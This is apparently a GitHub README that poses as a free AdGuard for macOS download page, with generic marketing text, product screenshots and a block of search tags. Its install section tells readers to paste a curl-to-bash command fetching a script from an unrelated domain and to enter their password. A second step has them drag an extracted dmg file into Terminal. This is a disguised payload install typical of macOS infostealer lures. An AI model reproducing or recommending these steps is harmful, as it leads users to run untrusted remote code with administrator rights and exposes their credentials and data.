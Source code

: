 # AdGuard for Mac — Free Download for macOS

AdGuard is a powerful ad-blocking and privacy protection tool designed for macOS. Follow the instructions below to install AdGuard for free and enjoy a cleaner, safer browsing experience! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/adguard)

If the download button doesn’t work, follow the step-by-step terminal instructions below.

## 📦 How to Install AdGuard for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with AdGuard

- 🛡️ **Ad Blocking**: Block intrusive ads, banners, and pop-ups for a seamless browsing experience.
- 🔒 **Privacy Protection**: Prevent trackers and analytics systems from collecting your data.
- 🚀 **Faster Browsing**: Improve page load times by eliminating unwanted ads and scripts.
- 🧑‍💻 **Custom Filters**: Create or import custom ad-blocking filters tailored to your needs.
- 🌙 **Dark Mode Support**: Enjoy a sleek interface that integrates beautifully with macOS Dark Mode.
- 🔧 **Parental Controls**: Restrict access to inappropriate content for a family-friendly browsing experience.

---

## About AdGuard

AdGuard is a leading ad-blocking solution designed to enhance your browsing experience on macOS. By leveraging advanced filtering technology, AdGuard removes intrusive advertisements, including banners, pop-ups, and video ads, ensuring a clean and distraction-free internet experience. Its lightweight design ensures minimal impact on system performance, making it an ideal choice for Mac users seeking both speed and efficiency. With AdGuard, you can browse confidently knowing that unwanted ads are eliminated before they even load.

Privacy is at the core of AdGuard’s mission. The software blocks trackers, cookies, and analytics tools that monitor your online behavior, safeguarding your personal information from third parties. By integrating seamlessly with macOS, AdGuard ensures that your data stays secure whether you’re browsing social media, shopping online, or streaming content. Its robust privacy protection features make it a must-have tool for anyone prioritizing online security.

AdGuard’s customization options set it apart from other ad blockers. Users can create or import custom filters to target specific types of ads or trackers, tailoring the software to their unique needs. Whether you’re a casual user or a power user, AdGuard’s intuitive interface makes it easy to configure settings and optimize your browsing experience. The software also supports multiple languages, ensuring accessibility for users worldwide.

For families, AdGuard offers powerful parental control features, allowing you to restrict access to inappropriate websites and content. This makes it an excellent choice for parents looking to create a safe online environment for their children. With regular updates and a dedicated support team, AdGuard ensures compatibility with the latest macOS versions and emerging online threats, keeping your browsing secure and up-to-date.

### Why Choose AdGuard?

AdGuard stands out for its combination of ad-blocking efficiency, privacy protection, and user-friendly design. Unlike browser-based ad blockers, AdGuard works at the system level, providing comprehensive protection across all browsers and apps. Its ability to block ads before they load not only enhances browsing speed but also reduces data usage, making it ideal for users with limited bandwidth. With a free version available for macOS, AdGuard offers premium features at no cost, making it accessible to everyone.

---

## 🖼 Preview

![AdGuard Dashboard](https://cdn.adguard.com/public/Adguard/Blog/Mac/2-6-0/DNS.png?%21=&mw=1360)
*AdGuard’s clean and intuitive dashboard for managing ad-blocking settings*

![Privacy Protection](https://cdn.adtidy.org/content/Kb/ad_blocker/safari/adguard-for-safari-extensions-checked.png)
*Configuring privacy protection settings in AdGuard*

![Custom Filters](https://cdn.adguard.com/public/Adguard/Blog/Mac/main_Mac.png?mw=1360)
*Creating custom filters for advanced ad-blocking control*

---

## 🔍 Tags

adguard free download, ad blocker mac, macos adblock, adguard install mac, free ad blocker, mac adblock software, adguard macos free, adguard free, adguard mac os, adguard download, free adguard download, adguard free mac, adguard mac, ad guard free, ad guard mac
